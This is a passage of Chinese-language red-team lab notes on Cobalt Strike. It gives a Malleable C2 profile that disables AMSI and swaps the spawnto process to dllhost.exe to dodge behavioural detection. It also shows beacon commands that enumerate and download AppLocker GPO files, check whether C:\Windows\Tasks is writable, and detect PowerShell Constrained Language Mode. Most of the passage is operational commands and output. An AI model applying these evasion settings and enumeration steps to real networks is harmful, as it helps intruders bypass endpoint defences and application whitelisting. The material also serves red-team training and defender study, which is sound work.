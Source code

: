 ```

上面配置会让C2执行 ```powerpick```, ```execute-assembly``` 和 ```psinject```时绕过AMSI


# Behavioural Detections

CS横移时默认使用rundll32 进程 

rundll32 作为 Cobalt Strike 的默认“spawnto”已经存在很长时间了，现在是一个常见的检测点

修改横移时使用的进程为dllhost.exe，使用下面profile配置

```
post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

# Policy Enumeration（策略枚举）

枚举AppLocker，并且下载GPO文件到本地
```
beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath

displayname gpcfilesyspath                                                                        
----------- --------------                                                                        
AppLocker   \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}

beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol
[*] started download of \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol (7616 bytes)
[*] download of Registry.pol is complete
```

```
PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"
```

```
PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"
```

# Writeable Path（可写路径）

枚举```C:\Windows\Tasks```目录是否可写
```
beacon> powershell Get-Acl C:\Windows\Tasks | fl
```


# PowerShell CLM

如果powershell在靶机里被CLM设置为约束语言，使用powerpick替代

```
beacon> powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
